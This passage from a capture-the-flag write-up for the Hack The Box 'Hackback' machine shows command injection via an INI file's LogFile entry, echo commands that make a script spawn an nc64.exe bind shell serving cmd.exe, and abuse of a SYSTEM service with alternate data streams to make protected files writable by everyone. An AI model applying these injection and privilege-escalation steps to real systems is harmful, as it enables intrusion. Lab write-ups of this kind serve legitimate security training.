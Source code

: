 ```
[Main]
LifeTime=100
LogFile=c:\util\scripts\log.txt
Directory=c:\inetpub\logs\logfiles
```

We assume that some script is using "clean.ini", which we have write access to, to write to "log.txt". Trying various injections we eventually find that we can append any command to the LogFile row in "clean.ini":

```
[Main]
LifeTime=100
LogFile=c:\util\scripts\log.txt & whoami
Directory=c:\inetpub\logs\logfiles
```

This means we can get any binary executed as user hacker! We use winrm to upload a 64 bit nc.exe to "c:\\windows\\system32\\spool\\drivers\\color" and edit "clean.ini" to spawn a shell:

```
echo '[Main]' > c:\util\scripts\clean.ini
echo 'LogFile=c:\util\scripts\log.txt & c:\windows\system32\spool\drivers\color\nc64.exe -lvp 10000 -e cmd.exe'  >> c:\util\scripts\clean.ini
echo 'Directory=c:\projects' >> c:\util\scripts\clean.ini
```

One thing that did cost me a lot of time here is that it is absolutely required to use a 64-Bit version of nc.exe. While the 32-Bit version does work in principle, it hides certain files from you which makes rooting extremely hard.

Connecting to the shell via our socks proxy we can now read "user.txt".

![](htb_hackback_proof_hacker.png)

## Root Flag

After a lot of enumerating we eventually check the registry for running services and find an unusual one called "userlogger":

![](htb_hackback_services.png)

Checking the available information about it, we see that it runs as local system and is startable and stoppable by hacker – perfect. As we do not know what it actually does we download the file to a windows test vm, install it as a service and watch its behavior in sysinternals process monitor:

![](htb_process_monitor.png)

We can see it creating a logfile in C:\\Windows\\Temp that contains the string "no log file specified", which means we must be able to specify a log file when starting the service. Running it again with a path as argument we can see that it writes to the path we told it to. Checking the permissions of the specified file we can see that it is now has: Everyone (F). This is a huge as it means we can make any file local system has access to readable and writable by everyone! One problem that remains is that the userlogger executable appends ".log" to the file we specify. We can bypass this by using ":" to mark the start of an alternate datastream (ads) which leads to the ".log" part not being appended to the regular filename but instead being appended as ads.
